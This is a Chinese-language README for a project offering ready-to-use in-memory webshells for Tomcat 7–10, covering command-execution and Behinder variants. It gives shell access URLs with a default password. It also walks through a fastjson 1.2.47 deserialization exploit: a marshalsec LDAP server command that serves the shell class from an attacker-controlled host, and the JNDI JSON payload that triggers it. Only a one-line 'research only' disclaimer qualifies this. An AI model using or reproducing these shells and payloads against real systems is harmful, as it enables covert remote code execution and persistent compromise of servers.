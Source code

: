 # TomcatMemShell
拿来即用的Tomcat7/8/9/10版本Listener/Filter/Servlet内存马，支持注入CMD内存马和冰蝎内存马

测试通过的Tomcat版本：  
- **tomcat7.0.99**(2019-12-17)&nbsp;&nbsp;&nbsp;&nbsp;**tomcat7.0.64**(2015-10-14)&nbsp;&nbsp;&nbsp;&nbsp;**tomcat7.0.34**(2012-12-11)  
- **tomcat8.5.69**(2021-07-05)&nbsp;&nbsp;&nbsp;&nbsp;**tomcat8.0.46**(2017-08-18)  
- **tomcat9.0.12**(2018-09-10)&nbsp;&nbsp;&nbsp;&nbsp;**tomcat9.0.53**(2021-09-10)  
- **tomcat10.0.11**(2021-09-10)&nbsp;&nbsp;&nbsp;&nbsp;**tomcat10.1.0-M2**(2021-07-02)
# 说明
### 主要内容
1. 实用
2. 适配对应版本的库和函数，如tomcat10开始javax.servlet更改为jakarta.servlet等
3. 添加冰蝎内存马的注入代码，方便直接GetShell
4. 分别总结了.jsp和.java的内存马实现方式，添加了Listener内存马

### JSP目录
根据目标环境**上传或写入**对应大版本的.jsp文件并访问，访问后页面返回>@<即说明注入成功，支持Tomat7/8/9/10版本

*见名知义，memlistener8910.jsp表示适用于Tomcat8/9/10版本的Listener CMD内存马，icememfilter7.jsp表示适用于Tomcat7版本的Filter冰蝎内存马*

### DeSerialize目录
对应的.java文件和.class文件需要结合**反序列化漏洞**类型进行漏洞利用，如fastjson的jndi或snakeyaml的spi等，支持Tomcat8/9/10版本

不适用于shiro漏洞，shiro漏洞利用需要继承AbstractTranslet类并且修改Header大小，感兴趣的可参考该项目：https://github.com/KpLi0rn/ShiroVulnEnv

*见名知义，LRain10表示适用于Tomcat10版本的Listener CMD内存马，IFRain表示适用于Tomcat8/9的Filter冰蝎内存马 （注意java文件修改文件名请与类名保持一致）*

对应java文件中StandardContext的获取依据Litch1师傅[《基于全局储存的新思路 | Tomcat的一种通用回显方法研究》](https://mp.weixin.qq.com/s?__biz=MzIwNDA2NDk5OQ==&mid=2651374294&idx=3&sn=82d050ca7268bdb7bcf7ff7ff293d7b3)的Thread.currentThread().getContextClassLoader()方式，该方式不适用于Tomcat7

# 用法
**Listener型/Filter型:**  
- CMD内存马URL：xx.xx.xx.xx/?chan=whoami  
- 冰蝎内存马URL：xx.xx.xx.xx/ &nbsp;&nbsp;&nbsp;&nbsp;默认连接密码：goautomne

**Servlet型：**  
- CMD内存马URL: xx.xx.xx.xx/p?chan=whoami  
- 冰蝎内存马URL: xx.xx.xx.xx/p &nbsp;&nbsp;&nbsp;&nbsp;默认连接密码：goautomne

# 利用举例
以fastjson1.2.47版本的反序列化漏洞为例，将对应Tomcat版本的class文件，这里以ILRain.class为例，上传到web服务器，并开启LDAP服务
```
java -cp marshalsec-0.0.3-SNAPSHOT-all.jar marshalsec.jndi.LDAPRefServer http://xx.xx.xx.xx/#ILRain 9102
```
然后再打入fastjson漏洞的poc,就可以使用冰蝎客户端去连接了
```
{
    "a":{
        "@type":"java.lang.Class",
        "val":"com.sun.rowset.JdbcRowSetImpl"
    },
    "b":{
        "@type":"com.sun.rowset.JdbcRowSetImpl",
        "dataSourceName":"ldap://xx.xx.xx.xx:9102/123",
        "autoCommit":true
    }
}
```

# 免责声明
仅供技术研究，请勿用于非法用途

# 题外话
觉得有帮助的话烦请给个star:wave:

